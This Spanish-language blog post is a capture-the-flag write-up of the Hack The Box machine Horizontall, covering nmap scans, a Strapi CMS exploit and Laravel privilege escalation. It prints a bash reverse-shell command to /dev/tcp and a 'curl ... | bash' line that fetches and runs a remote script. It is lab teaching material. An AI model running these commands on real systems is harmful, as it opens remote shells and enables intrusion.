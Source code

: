 ```yaml
---
layout: post
title: "Write Up Horizontall."
subtitle: "Starting-Point"
category: Blog
tags: [Easy,Genin,Linux,HTB,Strapi,Web,Vulnerability-Assessment,Source-Code-Analysis,Outdated-Software,CMS,Laravel,NodeJS,API,Javascript,Reconnaissance,Web-Site-Structure-Discovery,RCE,OSCP,eJPTv2]
image:
  path: /assets/img/horizontal/hori.png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
sudo nmap --open -p- -Pn -n -vvv --min-rate 5000 -sS 10.10.11.105 -oG allports
```

![list](/assets/img/horizontal/Parrot-2022-12-19-14-03-55.png){:.lead width="800" height="100" loading="lazy"}


***

### Services and Versions


```bash
nmap -sCV -p21,80 10.10.11.105 -oN target -Pn
```


![list](/assets/img/horizontal/Parrot-2022-12-19-14-04-49.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis and Explotation


### HTTP TCP-80


Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros.e ispeccionamos la web, ademas de las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb, como encontramos version vulnerable del srvicio ftp con serasploit tambien vamos a investigar ese vector .


![list](/assets/img/horizontal/Parrot-2022-12-19-14-07-23.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Whatweb nos  esta aplicando un reirerct al dominio horizontall.htb por lo que lo ingresamos al `/etc/hosts`.


Tambien podemos fuzzear los directorioo  para ver que informacion nos entrega, que la web de horizontall nada funciona.


![list](/assets/img/horizontal/Parrot-2022-12-19-14-30-41.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
En contramos unos directorips `/js` que vamos a grepearmanualmente de la siguiente forma.


```bash
curl -s -X GET "http://horizontall.htb/ | htmlq -p | batcat -l html
```

{:.note}
Esto nod devuelve dos ruta `/js/chunk-vendors.0e02b89e.js` y `/js/app.c68eb462.js` los cuales vamos a investigar pra ver que informacion podemos recolectar.


Entre tanta maraña d informcion encontramos un subdominio `api-prod.horizontal.htb/reviews` en cual pegarmos en el `/etc/hosts`


![list](/assets/img/horizontal/Parrot-2022-12-19-14-38-55.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
En contramos los nombres de tres usuarios que son `wail`,`doe`y`john`.


Fuzzeamos otra vez la ruta de api y cada rita interna que tenga esa tambien lo que nos da como resutado que encontramos un login que funciona con gestor de  contenido llamado strapi que vamos a buscar vulnerabiliudades con searchsploit.


![list](/assets/img/horizontal/Parrot-2022-12-19-15-08-51.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Nos decargamos el script y y nos da un a shell pero que nos vamos acambiar a una propia que nos vamos a poner ala eschucha en el puerto 443 y nos vamos a crear una archivo `shell.html` que contiene el comado para mandarnos una [reverse-shell] `bash -i >& /dev/tcp/10.10.10.14 0>&1` y lo ejecutamos de la siguiente manera deuna ves se  ejecuta ya que esta con la tuberia y el comado bash. 


![list](/assets/img/horizontal/Parrot-2022-12-19-15-22-40.png){:.lead width="800" height="100" loading="lazy"}


```bash
curl http://10.10.10.14/shell.html | bash
```


[reverse-shell]:(https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)


{:.note}
Podemos buscar la flag el usuario e bajos privileguios en el directorio el usuario `strapi`.


![list](/assets/img/horizontal/Parrot-2022-12-19-15-26-11.png){:.lead width="800" height="100" loading="lazy"}


***

## Escalacion de privilegios 


Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios, ademas hasta que se ejecute los anteriores podemos buscar los permisos con el comado find o tareas crond o tareas que esperen ejecucion.


Como no encontramos nada vemos los puetos que estan abiertos internamente y esta el 8000 si vemos con curl la version es Laravel v8 (PHP v7.4.18).


![list](/assets/img/horizontal/Parrot-2022-12-19-15-54-05.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Nos lo traemos con [chisel] y buscamos en exploit para ejecutarlo.


De la misma manera que antes solo que en ves id nos mandamos una reverse-shell y ya somos root.


![list](/assets/img/horizontal/Parrot-2022-12-19-15-54-05.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
La flag esta en el ecritorio del usuario priviligiado.

***
```bash
🎉 Felicitaciones ya has comprometido Horizontall de Hack The Box. 🎉
```
{:.centered}

***

Back to [Certification eJPTv2](2023-07-03-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}

***

Back to [Certification eWPT](){:.heading.flip-title}
{:.read-more}